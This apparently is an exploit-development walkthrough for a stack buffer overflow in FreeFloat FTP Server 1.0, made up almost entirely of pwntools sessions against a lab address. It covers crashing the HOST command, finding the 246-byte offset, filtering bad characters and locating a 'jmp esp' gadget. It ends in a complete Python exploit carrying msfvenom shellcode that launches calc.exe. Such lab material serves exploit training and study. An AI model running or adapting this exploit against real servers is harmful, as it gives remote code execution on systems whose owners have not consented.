









# FreeFloat FTP Server 1.0

```py
In [1]: r = remote('192.168.122.187', 21)
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done

In [2]: r.write('USER test\r\n')
    ...: r.readline()
    ...: 
Out[3]: b'220 FreeFloat Ftp Server (Version 1.00).\r\n'

In [4]: r.write('PASS test\r\n')
    ...: r.readline()
    ...: 
Out[5]: b'331 Password required for test.\r\n'

In [6]: r.write(b'HOST ' + b'A'*300 + b'\r\n')
```





```py
In [1]: r = remote('192.168.122.187', 21)
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done

In [2]: r.readline()
Out[2]: b'220 FreeFloat Ftp Server (Version 1.00).\r\n'

In [3]: r.write('USER test\r\n')
   ...: r.readline()
   ...: 
Out[3]: b'331 Password required for test.\r\n'

In [4]: r.write('PASS test\r\n')
   ...: r.readline()
   ...: 
Out[4]: b'230 User test logged in.\r\n'

In [5]: r.write(b'HOST ' + cyclic(300) + b'\r\n')
```





```py
In [6]: cyclic_find(0x616d6361)
Out[6]: 246
```

```py
In [1]: r = remote('192.168.122.187', 21)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done
Out[1]: b'220 FreeFloat Ftp Server (Version 1.00).\r\n'

In [2]: r.write('USER test\r\n')
   ...: r.readline()
   ...: 
Out[2]: b'331 Password required for test.\r\n'

In [3]: r.write('PASS test\r\n')
   ...: r.readline()
   ...: 
Out[3]: b'230 User test logged in.\r\n'

In [4]: r.write(b'HOST ' + b'A'*246 + b'BBBB' + bytes(range(1, 256)) + b'\r\n')
```





```py
In [1]: r = remote('192.168.122.187', 21)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done
Out[1]: b'220 FreeFloat Ftp Server (Version 1.00).\r\n'

In [2]: r.write('USER test\r\n')
   ...: r.readline()
   ...: 
Out[2]: b'331 Password required for test.\r\n'

In [3]: r.write('PASS test\r\n')
   ...: r.readline()
   ...: 
Out[3]: b'230 User test logged in.\r\n'

In [4]: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x0a]])

In [5]: r.write(b'HOST ' + b'A'*246 + b'BBBB' + chars + b'\r\n')
```



```py
In [1]: r = remote('192.168.122.187', 21)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done
Out[1]: b'220 FreeFloat Ftp Server (Version 1.00).\r\n'

In [2]: r.write('USER test\r\n')
   ...: r.readline()
   ...: 
Out[2]: b'331 Password required for test.\r\n'

In [3]: r.write('PASS test\r\n')
   ...: r.readline()
   ...: 
Out[3]: b'230 User test logged in.\r\n'

In [4]: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x0a, 0x0d]])

In [5]: r.write(b'HOST ' + b'A'*246 + b'BBBB' + chars + b'\r\n')
```



```
$ ropper -f ./shell32.dll --search 'jmp esp' -I 0x76bb0000
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./shell32.dll
0x76bb6c28: jmp esp;
```

```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 246

# 0x76bb6c28: jmp esp;
ret = p32(0x76bb6c28)

nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00\x0a\x0d' -f py CMD=calc.exe
buf =  b""
buf += b"\xd9\xed\xd9\x74\x24\xf4\xbf\x08\x20\x21\x42\x58\x31"
buf += b"\xc9\xb1\x31\x83\xe8\xfc\x31\x78\x14\x03\x78\x1c\xc2"
buf += b"\xd4\xbe\xf4\x80\x17\x3f\x04\xe5\x9e\xda\x35\x25\xc4"
buf += b"\xaf\x65\x95\x8e\xe2\x89\x5e\xc2\x16\x1a\x12\xcb\x19"
buf += b"\xab\x99\x2d\x17\x2c\xb1\x0e\x36\xae\xc8\x42\x98\x8f"
buf += b"\x02\x97\xd9\xc8\x7f\x5a\x8b\x81\xf4\xc9\x3c\xa6\x41"
buf += b"\xd2\xb7\xf4\x44\x52\x2b\x4c\x66\x73\xfa\xc7\x31\x53"
buf += b"\xfc\x04\x4a\xda\xe6\x49\x77\x94\x9d\xb9\x03\x27\x74"
buf += b"\xf0\xec\x84\xb9\x3d\x1f\xd4\xfe\xf9\xc0\xa3\xf6\xfa"
buf += b"\x7d\xb4\xcc\x81\x59\x31\xd7\x21\x29\xe1\x33\xd0\xfe"
buf += b"\x74\xb7\xde\x4b\xf2\x9f\xc2\x4a\xd7\xab\xfe\xc7\xd6"
buf += b"\x7b\x77\x93\xfc\x5f\xdc\x47\x9c\xc6\xb8\x26\xa1\x19"
buf += b"\x63\x96\x07\x51\x89\xc3\x35\x38\xc7\x12\xcb\x46\xa5"
buf += b"\x15\xd3\x48\x99\x7d\xe2\xc3\x76\xf9\xfb\x01\x33\xf5"
buf += b"\xb1\x08\x15\x9e\x1f\xd9\x24\xc3\x9f\x37\x6a\xfa\x23"
buf += b"\xb2\x12\xf9\x3c\xb7\x17\x45\xfb\x2b\x65\xd6\x6e\x4c"
buf += b"\xda\xd7\xba\x2f\xbd\x4b\x26\x9e\x58\xec\xcd\xde"

r = remote('192.168.122.187', 21)
r.readline()

r.write('USER test\r\n')
r.readline()

r.write('PASS test\r\n')
r.readline()

payload = pad + ret + nop + buf

r.write(b'HOST ' + payload + b'\r\n')
```


